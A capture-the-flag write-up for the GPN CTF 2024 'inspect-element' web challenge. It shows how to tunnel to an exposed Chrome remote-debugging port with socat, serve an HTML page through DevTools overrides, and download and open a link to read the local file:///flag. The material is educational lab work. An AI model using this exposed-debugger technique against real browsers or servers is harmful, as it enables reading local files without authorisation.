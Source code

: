 ```yaml
---
title: GPN CTF 2024 - inspect-element - web
published: true
---
```


Dockerfile is running chrome with the debugging port open.
In order to connect to the debugging port, I had to use the command from hint:

```bash
socat TCP-LISTEN:1336,fork OPENSSL:positions--ariana-grande-8298.ctf.kitctf.de:443
```

Then I could go to [chrome://inspect/#devices](chrome://inspect/#devices) and connect to the remote debugging port using `localhost:1336` as the address. In order to properly connect to this, I following [chrome documentation regarding accessing local servers and chrome instances with port forwarding](https://developer.chrome.com/docs/devtools/remote-debugging/local-server). If succesful, you should see something like this:

![chrome remote target screenshot](https://i.imgur.com/OmLn80P.png)

Then you can click **inspect fallback** button and it should open developer tools for the remote chrome instance. Go to `chrome://settings/downloads` and disable option `Ask where to save each file before downloading`. The next step is to save the `127.0.0.1:13370` url for overrides, and then make the contents of `index.html` be the following in your local machine:

```html
<html>
	<body>
		<button id="download">click</button>
		<script defer>
			const downloadText = () => {
				const text = `<a href="file:///flag">pwn</a>`;
				const blob = new Blob([text], { type: "text/plain" });
				const url = URL.createObjectURL(blob);
				const a = document.createElement("a");
				a.href = url;
				a.download = "hello.html";
				a.click();
				URL.revokeObjectURL(url);
			};

			download.addEventListener("click", downloadText);
		</script>
	</body>
</html>
```

After doing so, reload the page, click the button and go to `chrome://downloads` to see the downloaded file. Open it and the debugger should say that the tab is not active like so:

![debugger inactive tab screenshot](https://i.imgur.com/n9Tjvyg.png)

However, the tab with *inspect devices* will show that a new tab has opened:

![new tab](https://i.imgur.com/IAmpQZZ.png)

After clicking **inspect fallback** we are able to click **pwn** button:

![pwn button](https://i.imgur.com/EAr7rB7.png)

and that will redirect us to the flag file:

![flag](https://i.imgur.com/gQVpFvI.png)

---

*P.S.: Going to url `file:///flag` replaced for some reason the `file:///` to `http://file///flag` so that's why we used this workaround.*
